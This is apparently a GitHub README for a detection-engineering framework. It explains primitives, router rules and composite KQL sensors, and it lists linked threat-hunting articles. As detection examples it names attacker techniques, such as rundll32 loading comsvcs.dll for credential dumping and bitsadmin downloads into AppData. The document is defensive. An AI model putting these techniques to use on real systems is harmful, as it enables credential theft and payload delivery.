<div align="center">

```
███╗   ███╗██╗███╗   ██╗██╗███╗   ███╗██╗   ██╗███╗   ███╗    ████████╗██████╗ ██╗   ██╗████████╗██╗  ██╗
████╗ ████║██║████╗  ██║██║████╗ ████║██║   ██║████╗ ████║    ╚══██╔══╝██╔══██╗██║   ██║╚══██╔══╝██║  ██║
██╔████╔██║██║██╔██╗ ██║██║██╔████╔██║██║   ██║██╔████╔██║       ██║   ██████╔╝██║   ██║   ██║   ███████║
██║╚██╔╝██║██║██║╚██╗██║██║██║╚██╔╝██║██║   ██║██║╚██╔╝██║       ██║   ██╔══██╗██║   ██║   ██║   ██╔══██║
██║ ╚═╝ ██║██║██║ ╚████║██║██║ ╚═╝ ██║╚██████╔╝██║ ╚═╝ ██║       ██║   ██║  ██║╚██████╔╝   ██║   ██║  ██║
╚═╝     ╚═╝╚═╝╚═╝  ╚═══╝╚═╝╚═╝     ╚═╝ ╚═════╝ ╚═╝     ╚═╝       ╚═╝   ╚═╝  ╚═╝ ╚═════╝    ╚═╝   ╚═╝  ╚═╝
```

### Detection Framework — ADX-Validated Composite Rules

**Ala Dabat** · Senior Detection Engineer · Threat Hunter · Purple Team

[](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules)
[](https://azdabat.github.io/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/MITRE-MATRIX.html)
[](https://github.com/azdabat)
[](https://github.com/azdabat)
[](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/tree/main/Threat%20Hunting%20And%20R%26D%20Docs)
[](https://github.com/azdabat)

</div>

---
## Router Rules vs Primitives — The Three-Layer Detection Architecture

Before discussing minimum truth based detection engineering logic we must understand Router Rules and how they are different from substrate and intent based substrate engineering logic.

> *"A primitive captures what happened.*  
> *A router rule asks whether it matters.*  
> *A composite confirms that it does."*

---

### Primitives Are Atomic

A primitive is the irreducible telemetric fact. It answers one question with zero inference:

```
scrcons.exe loaded vbscript.dll
bitsadmin.exe executed
rundll32.exe invoked comsvcs.dll
```

No scoring. No context. No intent. Just the raw substrate event captured and indexed. Primitives live in the **atomic sentinel layer** — the silent 30-day rolling index that catches what composites miss and connects Day 0 staging to Day 3 activation.

---

### Router Rules Are Behavioural Threat Hunts

A router rule is a behavioural hunt that has been given structure, a scoring model, and a routing output. It asks a higher-order question than a primitive:

```
Is there evidence of ingress transfer intent anywhere on this estate?
Is there evidence of AD reconnaissance activity anywhere on this estate?
Is there evidence of script proxy execution intent anywhere on this estate?
```

These are hunt hypotheses expressed as always-on rules. The four-phase MTDF structure, the convergence scoring, the soft penalties, the routing directive — all of that is behavioural analysis, not raw telemetry capture. A router rule is operationally a threat hunt that has been promoted to a scheduled detection.

---

### The Three-Layer Model



---

### The Practical Distinction

| Layer | Question Asked | Output | Lifecycle |
|-------|---------------|--------|-----------|
| **Primitive** | Did this substrate event exist? | Raw indexed fact | Permanent |
| **Router Rule** | Is this adversary goal in progress? | RoutingDirective | Temporary |
| **Composite Sensor** | Did this specific attack happen? | HunterDirective | Permanent |
| **Incident Layer** | What is the full attack story? | Narrative + blast radius | Case lifecycle |

---

### What Happens When You Strip a Router Rule Down

Strip the scoring, remove the routing, remove the phase structure, keep only the Phase 1 filter — you get a primitive collector. That is literally what the atomic sentinel layer is built from.

The Phase 1 broad surface filter of Hunt Pack 04 (Ingress Tool Transfer), run with no threshold and no scoring, becomes a primitive index of every LOLBin downloader execution on the estate for the last 30 days.



That is architecturally valid and useful — but it serves a different purpose. The primitive index is the net. The router rule is the structured hunt. The composite is the anchor.

---

### The Insight That Connects All Three

The MTDF framework already implicitly contained all three layers:



The router rule fills the **gap between primitive and composite** — it is the structured behavioural hunt that surfaces intent across technique families while the composites are being built to confirm truth.

---

### The Coverage Pipeline in Full



---

### Summary

```
Primitive    → the substrate event, indexed, no inference
Router Rule  → the behavioural hunt, structured, intent-level, temporary
Composite    → the minimum truth confirmation, permanent, high-confidence
Incident     → the narrative, assembled from all three

Strip a router rule to Phase 1 only → primitive collector
Promote a router rule technique to ADX-validated anchor → composite sensor
A router rule that is never retired → coverage debt
A composite without a primitive backing it → gap in the 30-day index
```

> **The primitive is the net.**  
> **The router rule is the structured hunt.**  
> **The composite is the anchor.**  
> **The incident is the story.**


---

> *"A detection without offensive understanding is a pattern. A detection with offensive understanding is a trap."*

---
## The Detection Inference Spectrum — All Layers Are Hunts

> *"A primitive captures what happened.*  
> *A router rule asks whether it matters.*  
> *A composite confirms that it does.*  
> *All three are hunts. What changes is the claim being made."*

---

The distinction between primitives, router rules, and composite sensors is not **hunt vs non-hunt**. Every layer is a threat hunt. The distinction is **specificity of claim** and **depth of inference** — how much the rule asserts about what the evidence means, and how much evidence is required before that assertion is made.

---

### The Spectrum of Inference



---

### The Claim Each Layer Makes

The difference is not the analytical activity — all three are threat hunts. The difference is what claim the hunt is making and how much evidence is required to make it.

| Layer | Hunt Claim | Evidence Required | Analyst Action |
|-------|-----------|------------------|----------------|
| **Primitive** | "This event occurred" | The event itself — no interpretation | Index it · stitch it later |
| **Router Rule** | "Adversary intent is present" | Convergence of intent signals across a technique family | Triage — run the composite on this DeviceId |
| **Composite Sensor** | "This specific attack occurred" | Minimum truth anchor + optional reinforcement | Investigate — create incident |

---

### The More Accurate Model

Rather than three separate layers, this is a **continuous spectrum of inference** with three operating points that the MTDF has formalised. All three points are active hunts operating at different levels of specificity.



---

### What Changes as You Move Across the Spectrum

**From primitive to router rule:** a scoring model and routing output are added. The hunt now makes a claim about intent rather than just recording an event. The primitive `bitsadmin.exe executed` becomes the router rule claim `ingress transfer intent is present across this technique family`.

**From router rule to composite sensor:** the scope narrows to one technique, the rule is validated against real telemetry in ADX, a unified suppression model is applied, and the threshold is raised. The router rule claim `ingress transfer intent` becomes the composite claim `bitsadmin /transfer with remote URL and AppData staging path confirmed`.

**Primitives are not passive.** When you run a 30-day primitive collector across the estate looking for `scrcons.exe` loading script DLLs, you are hunting. You are asking a question of telemetry and receiving a list of facts. The inference depth is zero — but the analytical act is identical to every other layer.

---

### The Full Pipeline — From Event to Incident



---

### What Happens When You Strip a Router Rule Down

Remove the scoring, remove the routing, remove the phase structure — keep only the Phase 1 broad surface filter. The router rule becomes a primitive collector.

The Phase 1 filter of Hunt Pack 04 (Ingress Tool Transfer) with no threshold and no scoring is a primitive index of every LOLBin downloader execution on the estate for the last 30 days. That is architecturally valid and useful — but it serves a different purpose at a different inference point on the spectrum.



---

### The Corrected Framework Statement

```
Primitives        → threat hunts at zero inference
Router Rules      → threat hunts at low-medium inference
Composite Sensors → threat hunts at high inference

All three are hunts.
What changes is the claim being made,
the evidence required to make it,
and the action the analyst takes when it fires.
```

---

### Inference Depth at a Glance

| Property | Primitive | Router Rule | Composite Sensor |
|----------|-----------|-------------|-----------------|
| **Inference depth** | Zero | Low — medium | High |
| **Hunt claim** | Event occurred | Adversary goal in progress | Specific attack confirmed |
| **Base score** | None | 0 | 55 |
| **Threshold** | None | ≥ 30 | ≥ 75 |
| **Output** | Indexed fact | RoutingDirective | HunterDirective |
| **Lifecycle** | Permanent | Temporary | Permanent once ADX validated |
| **Analyst action** | Stitch via entity key | Run composite on DeviceId | Investigate · create incident |
| **Noise tolerance** | High — wide net | Medium — scored intent | Low — minimum truth required |
| **Analogy** | The net | The structured hunt | The anchor |

---

> **The primitive is the net.**  
> **The router rule is the structured hunt.**  
> **The composite is the anchor.**  
> **The incident is the story.**  
> **All three are hunts. The inference depth is what separates them.**


---

## The Problem With Most Detection Rules

Most enterprise SOC environments are defended by rules built on three flawed assumptions:

**1. Attackers follow predictable sequences.**  
Real intrusions are temporally fractured. C2 jitter, staged payloads, and multi-day dwell deliberately break join-dependent detection chains.

**2. A single event is enough to alert.**  
Single-event rules produce noise. Analysts tune them out or drown in false positives. Neither outcome serves defence.

**3. The rule's job ends at the alert.**  
An alert without analyst direction is a starting gun with no finish line. Context-free detection wastes the only thing SOC analysts don't have: time.

**This framework addresses all three.**

---

## The Minimum Truth Detection Framework

A five-layer methodology for building detections that survive real attacker behaviour, enterprise noise, and operational scale.



> **Reinforcement does not redefine truth — it strengthens it.**  
> A Minimum Truth anchor without reinforcement is a trip wire. With reinforcement, it is a proof.

---

## Composite vs. Monolithic Detection Architecture

Why composites survive where traditional rules fail:



The composite architecture forces **narrative convergence at the exact moment an attacker touches an unavoidable telemetric choke point** — regardless of timing, tooling, or evasion.

---

## R&D Publications & Purple Team Playbooks

> **Full research library:** [`Threat Hunting And R&D Docs /`](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/tree/main/Threat%20Hunting%20And%20R%26D%20Docs)

Each article maps the full attack chain from the offensive side, dissects the detection logic, and provides production-grade KQL composites with purple team exercise scenarios.

---

### 01 · Advanced Defense Evasion & C2 Detection Pack
**AMSI Bypass · LOLBin Abuse · C2 Beaconing · Defense Evasion Chains**

> Detection engineering for one of the most actively evolved attack surfaces. Covers AMSI bypass patterns, LOLBin-hosted C2, and the behavioural composites that catch them when string-matching fails.

**MITRE Coverage:** `T1562.001` · `T1059` · `T1218` · `T1071.001` · `T1027`

[](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/Threat%20Hunting%20And%20R%26D%20Docs/Advanced%20Defense%20Evasion%20%26%20C2%20Detection%20Pack.md)

---

### 02 · Scheduled Task Persistence Ecosystem
**CLI Creation · Silent TaskCache · Lateral Execution via Scheduled Tasks**

> Full ecosystem coverage from `schtasks.exe /create` through silent TaskCache registry artefacts. Includes the cousin rule chain that catches lateral movement executed via remote scheduled tasks — a pattern most vendors miss entirely.

**MITRE Coverage:** `T1053.005` · `T1021.002` · `T1543` · `T1078`

[](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/Threat%20Hunting%20And%20R%26D%20Docs/ScheduledTask_Persistence_Ecosystem.md)

---

### 03 · SILVERFOX / VALLEYRAT — BYOVD Ecosystem
**Bring Your Own Vulnerable Driver · Kernel-Level Evasion · APT Tooling**

> Deep-dive into the SILVERFOX and VALLEYRAT threat clusters and their use of Bring Your Own Vulnerable Driver (BYOVD) techniques to disable EDR at the kernel level. Includes threat intelligence profiling, driver artefact detection, and composite hunting rules for an attack class that most endpoint tools are blind to by design.

**MITRE Coverage:** `T1068` · `T1562.001` · `T1014` · `T1055` · `T1036`

[](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/Threat%20Hunting%20And%20R%26D%20Docs/SILVERFOX_VALLEYRAT_BYOVD_Ecosystem.md)

---

### 04 · Ghost Pixels — Purple Team Steganography Playbook
**Image / Audio / PDF Stego · DNS Tunnel · Polyglot Files · C2 via CDN**

> Full-spectrum purple team playbook for steganography-based attack chains. Maps LSB injection, EXIF payload hiding, certutil LOLBAS decode, DNS tunnelling, ICMP ping tunnel C2, and scheduled task stego beaconing from the offensive side — with redacted payload structures, blue team detection notes per technique, and ten composite KQL rules covering every major stego variant including the scheduled task polling chain that most image-based rules miss entirely.

**MITRE Coverage:** `T1027.003` · `T1071.001` · `T1071.004` · `T1095` · `T1140` · `T1218`

[](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/Threat%20Hunting%20And%20R%26D%20Docs/ghost_pixels_purple_team_stego_playbook.md)

---

### 05 · ATT&CK Substrate Adjacency — Detection Coverage Beyond Technique Taxonomy

> *"ATT&CK tells you what technique the attacker used. Substrate Adjacency tells you which three techniques they will pivot to when you detect the first one."*

MITRE ATT&CK models attacker behaviour **vertically** — tactic → technique → sub-technique. What it does not model is **horizontal adjacency between techniques operating on different substrates**. An adversary blocked on SMB pivots instantly to WinRM, then DCOM, then WMI. Each is a separate ATT&CK technique. All represent the same adversary intent. Detecting one while missing the others is not coverage — it is a **Coverage Illusion**.

This document introduces **Substrate Adjacency** — the missing horizontal layer that sits on top of ATT&CK. It formalises the **Cousin Technique Doctrine**: the principle that adjacent techniques sharing the same adversary intent require separate, purpose-built sensors deployed as an ecosystem, with the incident layer stitching cousin surface fires into a unified attack narrative.

**Covers:** Coverage Illusion · Cousin Technique Doctrine · Lateral Movement, Persistence, Execution, Credential Access, and Defense Evasion ecosystems mapped with cousin surfaces · Coverage Maturity Model (Level 0–4) · Integration with the Minimum Truth Framework layers

📄 **[ATT&CK_Substrate_Adjacency.md](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/ATT%26CK_Substrate_Adjacency.md)**

---

### 06 · SilverFox / ValleyRAT — BYOVD vs Polymorphic Malware: Why Signatures Fail and Behaviour Wins

> *"SilverFox does not exploit a zero-day. It exploits the trust Windows places in signed binaries. The signature is the weapon."*

SilverFox and ValleyRAT represent a category of Chinese-nexus threat actor tradecraft that weaponises Windows driver trust to achieve kernel-level EDR blinding before any overtly malicious activity occurs. The attack uses **byte-flipping mutation** — flipping a single non-authenticated byte in a legitimate signed driver's PE header. The file hash changes. The digital signature remains valid. Every hash-based IOC, every VirusTotal lookup, every blocklist fails silently.

This document delivers a complete offensive and defensive breakdown of the BYOVD chain: from fake installer delivery through DLL sideloading, driver staging, kernel service registration, EDR blinding, and ValleyRAT C2 establishment. It contrasts the byte-flipping technique against classical polymorphic malware to explain precisely why signature-based controls fail and why **behavioural composite detection is the only viable defence**.

**Covers:** Byte-flipping vs polymorphism technical comparison · Full kill chain with offensive perspective · Three-tier detection architecture (Atomic → Core+ → Advanced Kill-Chain) · MITRE ATT&CK mapping · Behavioural IOC catalogue · Validation and testing matrix · Full IR lifecycle

📄 **[SilverFox-BYOVD-Vs-Polymorphic-Malware-README.md](https://github.com/azdabat/Novel-Tradecraft-Research-Emerging-Attack-Ecosystems/blob/main/SilverFox-BYOVD-Vs-Polymorphic-Malware-README.md)**

---

### 07 · Adversary-Informed Threat Hunting — MDE & Sentinel Playbook

> *"Threat hunting is not searching for known bad. It is reasoning about what an attacker must have done, then finding the evidence that confirms or refutes it."*

Most SOC teams hunt reactively — an alert fires, an analyst investigates. This playbook inverts that model. It operationalises **hypothesis-driven, adversary-informed hunting** built on the intersection of PEAK, TAHITI, and the Minimum Truth Detection Framework — where every hunt begins with a formally stated hypothesis anchored on what an attacker *must* have done, not what a vendor signature happened to catch.

The playbook covers the complete hunt lifecycle, the methodology for building and validating hunt hypotheses, full telemetry mapping across MDE Advanced Hunting and Microsoft Sentinel, and **20 production-grade hunt rules** for 2026 — each demonstrated from both a red team (Empire / Atomic Red Team) and blue team perspective, with Azure Sentinel and MDE-aligned KQL. These are the techniques most SOC teams miss: DCSync via replication rights, WMI silent persistence, DCOM lateral movement, statistical C2 jitter detection, NTDS extraction via VSS, named pipe C2, and more.

**Covers:** PEAK + TAHITI + Minimum Truth integrated methodology · Hypothesis construction framework · MDE vs Sentinel — when to use which · 20 adversary-informed hunt rules with Empire telemetry · Red team attack vectors with Atomic Red Team references · Hunt-to-production-rule promotion pipeline · Weekly hunt schedule · Escalation and output classification

📄 **[Threat-Hunting-Playbook.md](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/Threat%20Hunting%20And%20R%26D%20Docs/Threat-Hunting-Playbook.md)**

---
📄 **[Threat-Hunting-Playbook.md](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules/blob/main/Threat%20Hunting%20And%20R%26D%20Docs/Threat-Hunting-Playbook.md)**

---

### 08 · Threat Hunting vs Detection Engineering — When to Hunt, When to Engineer, and Why the Difference Matters

> *"A hunt is a question. A rule is a settled answer. Know which you're writing before you open your editor."*

Threat hunting and detection engineering are two fundamentally different disciplines that feed each other — and conflating them produces rules that are too broad for production and hunts too narrow to find anything new. This document resolves that confusion with precision. It defines the exact decision boundary between the two modes, the formal pipeline for promoting a validated hunt finding into a production composite rule, and the methodology that sits beneath every rule in this framework.

